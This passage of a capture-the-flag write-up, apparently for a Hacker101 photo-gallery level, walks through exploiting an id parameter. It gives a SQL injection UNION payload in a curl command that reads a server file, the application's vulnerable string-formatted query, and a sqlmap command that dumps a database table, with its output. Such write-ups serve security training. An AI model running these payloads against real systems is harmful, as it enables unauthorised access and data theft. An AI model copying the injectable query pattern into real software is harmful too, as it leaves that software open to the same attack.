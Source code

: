 I then tried with *main.py* and found the flag.

**Note:** if you use curl, don't forget to URL encode the payload:

```
$ curl "http://xx.xx.xx.xx/xxxxxxxx/fetch?id=4+UNION+SELECT+'../../../main.py'+%23"
```

### Flag 1

We know that *fetch/id* is vulnerable to SQLi... you can do some manual enumeration to find out more information, but we have it already because the *main.py* file showed us juicy information:

```
def getDb():
        return MySQLdb.connect(host="localhost", user="root", password="", db="level5")

cur.execute('SELECT id, title FROM albums')

cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))

if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
```

It's now easy to provide this valuable information to sqlmap and hope for good results:

```
$ sqlmap -u "http://xx.xx.xx.xx/xxxxxxx/fetch?id=2" --method GET --dump -D level5 -T photos -p id --dbms=mysql --code 200 --skip-waf --random-agent --threads 10 -o

[...]
Database: level5
Table: photos
[3 entries]
+----+------------------+--------+------------------------------------------------------------------+
| id | title            | parent | filename                                                         |
+----+------------------+--------+------------------------------------------------------------------+
| 1  | Utterly adorable | 1      | files/adorable.jpg                                               |
| 2  | Purrfect         | 1      | files/purrfect.jpg                                               |
| 3  | Invisible        | 1      | 1You0Have2Get7Your4One9Flag6This3Is2A7Dummy5One7Thanks7H101CTF91 |
+----+------------------+--------+------------------------------------------------------------------+
```

That 64 character string for *Invisible* title sure looks like a flag...

**Conclusions:** sometimes you have to understand the system infrastructure to apply some attacks. And when we have access to files in the system, there could be valuable information lying around to be found...
